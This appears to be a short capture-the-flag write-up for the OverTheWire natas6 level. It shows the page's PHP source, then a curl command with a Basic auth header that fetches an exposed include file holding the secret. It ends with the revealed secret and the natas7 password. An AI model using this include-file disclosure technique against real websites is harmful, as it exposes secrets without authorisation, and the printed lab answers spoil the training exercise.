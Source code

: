 ```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas6", "pass": "<censored>" };</script></head>
<body>
<h1>natas6</h1>
<div id="content">

<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>

<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Thus there is a `http://natas6.natas.labs.overthewire.org/includes/secret.inc` file... Try to get it with `curl`:

```bash
curl -H "Authorization: Basic bmF0YXM2OjBSb0p3SGRTS1dGVFlSNVd1aUFld2F1U3VOYUJYbmVk" http://natas6.natas.labs.overthewire.org/includes/secret.inc
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

Submit the secret in the field requiring it and get:

> Access granted. The password for natas7 is bmg8SvU1LizuWjx3y7xkNERkHxGre0GS
